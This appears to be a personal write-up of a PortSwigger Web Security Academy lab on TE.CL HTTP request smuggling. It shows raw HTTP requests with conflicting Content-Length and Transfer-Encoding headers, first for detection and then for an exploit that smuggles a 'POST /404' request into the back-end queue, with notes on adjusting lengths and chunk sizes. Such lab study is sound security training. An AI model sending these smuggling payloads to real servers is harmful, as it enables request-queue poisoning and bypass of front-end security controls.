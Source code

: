 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![[Pasted image 20250818175935.png]]
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:
![[Invalid Chunk SIze.png]]


Confirming TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**
![[Pasted image 20250818180347.png]]

# Usage of Differential Responses:

Explained:
![[Confirmation Diffential Responses TE CL.png]]

Crafting the request:
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![[Pasted image 20250818183436.png]]

Adjusting the chunk size to correspond to the 404 request until its body (excluding last non-printable):
![[Pasted image 20250818184053.png]]
Adjusting first Content-Length to include only chunked size and following non-printable chars:
![[Pasted image 20250818184628.png]]

# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
